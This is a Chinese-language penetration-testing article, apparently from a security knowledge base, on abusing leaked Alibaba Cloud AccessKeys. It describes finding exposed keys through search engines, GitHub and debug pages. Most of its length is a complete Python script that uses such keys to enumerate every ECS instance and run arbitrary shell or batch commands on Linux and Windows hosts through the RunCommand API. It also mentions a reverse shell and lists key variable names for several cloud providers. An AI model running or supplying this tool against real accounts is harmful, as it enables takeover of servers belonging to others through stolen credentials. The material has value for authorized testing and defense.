








# 云服务器 AccessKey 密钥泄露

目前为止，云服务器已经占据了服务器的大部分市场，由于云服务器易管理，操作性强，安全程度高。很多大型厂商都选择将资产部署在云服务上，但安全的同时由于运维人员的疏忽也会导致一些非预期的突破口

在阅读下文前我们先简单了解下关于**云服务的 AccessKey密钥**，我们这里拿 **阿里云** 举一个例子


登录阿里云账户后点击 **AccessKey管理**



简单来说这个密钥相当于账户的API调用，具有账户完全的权限



创建后就会生成 **AccessKey ID，AccessKey Secret**

> [!NOTE]
>
> - AccessKeyId：用于标识用户。
> - AccessKeySecret：用于验证用户的密钥。AccessKeySecret必须保密。

这里我们就创建好了这个密钥，常见的开发过程中就有可能会需要这个密钥，而这个密钥我们通常需要一些信息收集手段拿到这个密钥

> [!NOTE]
>
> FOFA，Google等搜索引擎


> [!NOTE]
>
> Github


> [!NOTE]
>
> 部分开发框架的Debug或报错页面





在渗透测试过程中拿到这个密钥后，可以到云服务管理平台获取更多信息

这里我们使用行云管家进行下一步: https://yun.cloudbility.com/

登录注册后选择对应的厂商服务并写入密钥


接着会扫描账户下的所有服务器，勾选添加点击下一步



这样就会账户下的所有主机添加进去


如下图，已经拥有服务器的管理权限，重启，关闭，改密码都是非常危险的行为


而我们要做到的是控制主机，用其他的平台执行命令是行不通的，所以我们需要调用原生的API来对主机进行命令执行

阿里云API开发链接: https://next.api.aliyun.com/api/Ecs/2014-05-26/RunInstances

> [!NOTE]
>
> pip3 install aliyun-python-sdk-core
>
> pip3 install aliyun-python-sdk-ecs


阿里云的 API 中拥有了所有此用户的权限，通过调用API中的方法我们就可以在渗透过程中完成一系列的对主机的操作

简单列举下API调用的思路，然后写API利用脚本


首先获取当前用户下的所有主机信息

调用API  **DescribeInstances**



创建一条需要执行的命令

>[!NOTE]
>
>这里我使用的是旧版的API RunCommand
>
>因为一次性返回 CommandId InvokeId 且使用完就删除，不会保留在云助手


再完成回显的查看的API调用  **DescribeInvocationResults** 



更多的功能大家就自行探索啦

这里看一下我写的利用代码的使用

> [!NOTE]
>
> 扫描地域主机



> [!NOTE]
>
> Linux主机命令执行


> [!NOTE]
>
> Windows命令执行


> [!NOTE]
>
> 反弹shell


> [!NOTE]
>
> 完整代码和所需Python库 
>
> pip3 install aliyun-python-sdk-core
>
> pip3 install aliyun-python-sdk-ecs

```python
#!/usr/bin/env python
#coding=utf-8

import json
import sys
import time

from aliyunsdkcore.client import AcsClient
from aliyunsdkcore.acs_exception.exceptions import ClientException
from aliyunsdkcore.acs_exception.exceptions import ServerException
from aliyunsdkecs.request.v20140526.DescribeInstanceStatusRequest import DescribeInstanceStatusRequest
from aliyunsdkecs.request.v20140526.DescribeRegionsRequest import DescribeRegionsRequest
from aliyunsdkecs.request.v20140526.DescribeInstancesRequest import DescribeInstancesRequest
from aliyunsdkecs.request.v20140526.DescribeInvocationResultsRequest import DescribeInvocationResultsRequest
from aliyunsdkecs.request.v20140526.RunCommandRequest import RunCommandRequest

def Linux_Cmd_Exec(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, ZhuJi_ID, Zhuji_Aliyun_City_Host):
    client = AcsClient(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, Zhuji_Aliyun_City_Host)
    request = DescribeInstancesRequest()
    request.set_accept_format('json')
    InstanceId = [ZhuJi_ID]
    request.set_InstanceIds(InstanceId)

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')
    print(
    """
    \033[1;31m --------------------------------------------------------------------------------\033[0m
    \033[1;31m -        +-------+                                                             \033[0m
    \033[1;31m -        | Linux |                OS: %s                                       \033[0m
    \033[1;31m -        |       |     -------->  IP: %s                                       \033[0m
    \033[1;31m -        |       |                Name: %s                                     \033[0m
    \033[1;31m -        +-------+                                                             \033[0m
    \033[1;31m --------------------------------------------------------------------------------\033[0m
    """ % (
        json.loads(response)['Instances']['Instance'][0]['OSName'],
        json.loads(response)['Instances']['Instance'][0]['PublicIpAddress']['IpAddress'][0],
        json.loads(response)['Instances']['Instance'][0]['InstanceName'])
    )
    while True:
        Cmd = str(input("\033[5;37m[root@{}] \033[0m".format(ZhuJi_ID)))
        if Cmd == "exit":
            print("\033[1;31m-正在退出主机..... {} \033[0m".format(ZhuJi_ID))
            break
        Linux_exec(client, Cmd, ZhuJi_ID)


def Linux_exec(client, Cmd, ZHUJI_ID):
    request = RunCommandRequest()
    request.set_accept_format('json')

    request.set_Type("RunShellScript")
    request.set_CommandContent(Cmd)
    request.set_InstanceIds([ZHUJI_ID])
    request.set_Name("PeiQi")
    request.set_Description("PeiQi")
    request.set_Timed(False)

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')
    CommandId = json.loads(response)['CommandId']
    InvokeId  = json.loads(response)['InvokeId']
    #print(CommandId, InvokeId)
    time.sleep(1)
    request = DescribeInvocationResultsRequest()
    request.set_accept_format('json')

    request.set_InvokeId(InvokeId)
    request.set_InstanceId(ZHUJI_ID)
    request.set_CommandId(CommandId)
    request.set_ContentEncoding("PlainText")

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')
    Output = json.loads(response)['Invocation']['InvocationResults']['InvocationResult'][0]["Output"]
    print("\033[1;32m{}\033[0m".format(Output))

def Windows_Cmd_Exec(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, ZhuJi_ID, Zhuji_Aliyun_City_Host):
    client = AcsClient(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, Zhuji_Aliyun_City_Host)
    request = DescribeInstancesRequest()
    request.set_accept_format('json')
    InstanceId = [ZhuJi_ID]
    request.set_InstanceIds(InstanceId)

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')
    print(
    """
    \033[1;31m --------------------------------------------------------------------------------\033[0m
    \033[1;31m -        +-------+                                                             \033[0m
    \033[1;31m -        |Windows|               OS: %s                                       \033[0m
    \033[1;31m -        +-------+    -------->  IP: %s                                       \033[0m
    \033[1;31m -       /_______/                Name: %s                                     \033[0m
    \033[1;31m -                                                                              \033[0m
    \033[1;31m --------------------------------------------------------------------------------\033[0m
    """ % (
            json.loads(response)['Instances']['Instance'][0]['OSName'],
            json.loads(response)['Instances']['Instance'][0]['PublicIpAddress']['IpAddress'][0],
            json.loads(response)['Instances']['Instance'][0]['InstanceName'])
    )
    while True:
        Cmd = str(input("\033[5;37mC:\Windows\System32> \033[0m".format(ZhuJi_ID)))
        if Cmd == "exit":
            print("\033[1;31m-正在退出主机 {}.....  \033[0m".format(ZhuJi_ID))
            break
        Windows_exec(client, Cmd, ZhuJi_ID)

def Windows_exec(client, Cmd, ZHUJI_ID):
    request = RunCommandRequest()
    request.set_accept_format('json')

    request.set_Type("RunBatScript")
    request.set_CommandContent(Cmd)
    request.set_InstanceIds([ZHUJI_ID])
    request.set_Name("PeiQi")
    request.set_Description("PeiQi")
    request.set_Timed(False)

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')
    CommandId = json.loads(response)['CommandId']
    InvokeId  = json.loads(response)['InvokeId']
    #print(CommandId, InvokeId)
    time.sleep(1)
    request = DescribeInvocationResultsRequest()
    request.set_accept_format('json')

    request.set_InvokeId(InvokeId)
    request.set_InstanceId(ZHUJI_ID)
    request.set_CommandId(CommandId)
    request.set_ContentEncoding("PlainText")

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')
    Output = json.loads(response)['Invocation']['InvocationResults']['InvocationResult'][0]["Output"]
    print("\033[1;32m{}\033[0m".format(Output))


# 可用地域扫描
def Aliyun_City_Scan(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET):
    Aliyun_City = {}
    client = AcsClient(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET)

    request = DescribeRegionsRequest()
    request.set_accept_format('json')

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')
    for i in range(0, 30):
        try:
            City_Host = json.loads(response)['Regions']['Region'][i]['RegionId']
            City_Name = json.loads(response)['Regions']['Region'][i]['LocalName']
            Aliyun_City[City_Name] = City_Host
        except:
            print('\033[1;34m ------ 搜索到有{}个可使用阿里云地域 ------\033[0m'.format(i))
            break
    return Aliyun_City

# 扫描账号下可控主机
def Aliyun_Number_Scan(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, Aliyun_City):
    Aliyun_Serve_test_dict = []
    InstanceId_List = []
    for City in Aliyun_City.keys():
        Aliyun_City_Host = Aliyun_City[City]
        client = AcsClient(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, Aliyun_City_Host)

        try:
            request = DescribeInstanceStatusRequest()
            request.set_accept_format('json')
            response = client.do_action_with_exception(request)
            response = str(response, encoding='utf-8')
            Aliyun_Num = json.loads(response)['TotalCount']
            if Aliyun_Num != 0:
                print("\033[1;34m 扫描出 {} 共有 {}台云服务器 \033[0m".format(City, Aliyun_Num))
                for NUM in range(0, int(Aliyun_Num)):
                    InstanceId = json.loads(response)['InstanceStatuses']['InstanceStatus'][NUM]['InstanceId']
                    Aliyun_Serve_test(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, InstanceId, Aliyun_City_Host, NUM, Aliyun_Serve_test_dict)
                    InstanceId_List.append(InstanceId)

            else:
                print("\033[1;31m 扫描出 {} 共有 {}台云服务器 \033[0m".format(City, Aliyun_Num))
        except Exception as e:
            print("\033[1;31m 请求发送失败，请检查 API密钥 \033[0m", e)
            sys.exit(0)

    print("\033[1;36m 此 AccessKey 下共有 {} 台云服务器 \n\033[0m".format(len(Aliyun_Serve_test_dict)))
    while True:
        ZhuJi_ID = str(input("\033[35m 请输入 主机ID 进入服务器：\n 主机ID   >>> \033[0m"))
        if ZhuJi_ID in InstanceId_List:
            for data in Aliyun_Serve_test_dict:
                if ZhuJi_ID == data['InstanceId']:
                    Zhuji_Aliyun_City_Host = data['Aliyun_City_Host']
                    Zhuji_OS = data['OS']
                    if Zhuji_OS == "Linux":
                        Linux_Cmd_Exec(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, ZhuJi_ID, Zhuji_Aliyun_City_Host)
                    else:
                        Windows_Cmd_Exec(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, ZhuJi_ID, Zhuji_Aliyun_City_Host)
        else:
            print("\033[1;31m 请求发送失败，请检查 主机ID是否正确 \033[0m")


def Aliyun_Serve_test(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, InstanceId, Aliyun_City_Host, NUM, Aliyun_Serve_test_dict):
    client = AcsClient(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, Aliyun_City_Host)
    request = DescribeInstancesRequest()
    request.set_accept_format('json')
    InstanceId = [InstanceId]
    request.set_InstanceIds(InstanceId)

    response = client.do_action_with_exception(request)
    response = str(response, encoding='utf-8')

    NUM = int(NUM) + 1
    OSName = json.loads(response)['Instances']['Instance'][0]['OSName']
    if "Windows" in OSName:
        OS = "Windows"
    else:
        OS = "Linux"
    IpAddress_1 = json.loads(response)['Instances']['Instance'][0]['VpcAttributes']['PrivateIpAddress']['IpAddress'][0]
    IpAddress_2 = json.loads(response)['Instances']['Instance'][0]['PublicIpAddress']['IpAddress'][0]
    InstanceName = json.loads(response)['Instances']['Instance'][0]['InstanceName']
    InstanceId = InstanceId[0]
    Aliyun_Serve_test_dict.append({
        "InstanceId": InstanceId,
        "Aliyun_City_Host": Aliyun_City_Host,
        "OS":OS
    })
    # Aliyun_Serve_test_dict["InstanceId"] = InstanceId
    # Aliyun_Serve_test_dict["Aliyun_City_Host"] = Aliyun_City_Host
    # Aliyun_Serve_test_dict["OS"] = OS

    print("\033[1;34m ({})   主机ID: {}   系统名称: {}   \n       外网IP： {}\n       内网IP： {}   \n       服务器名: {}\n \033[0m".format(NUM, InstanceId, OSName, IpAddress_2, IpAddress_1, InstanceName))


if __name__ == '__main__':
    ALIYUN_ACCESSKEYID = "xxxxxxxxxxxxx"
    ALIYUN_ACCESSKEYSECRET = "xxxxxxxxxxxxxxxxxxxxxx"
    Aliyun_City = Aliyun_City_Scan(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET)
    InstanceId_List = Aliyun_Number_Scan(ALIYUN_ACCESSKEYID, ALIYUN_ACCESSKEYSECRET, Aliyun_City)

```

常见的 Access Key名称

```
阿里云 
ALIYUN_ACCESSKEYID
ALIYUN_ACCESSKEYSECRET

腾讯云
SecretId
SecretKey

AWS
AWS_ACCESS_KEY_ID
AWS_SECRET_ACCESS_KEY

青云
qy_access_key_id
qy_secret_access_key
```


参考的文章:https://www.freebuf.com/articles/web/255717.html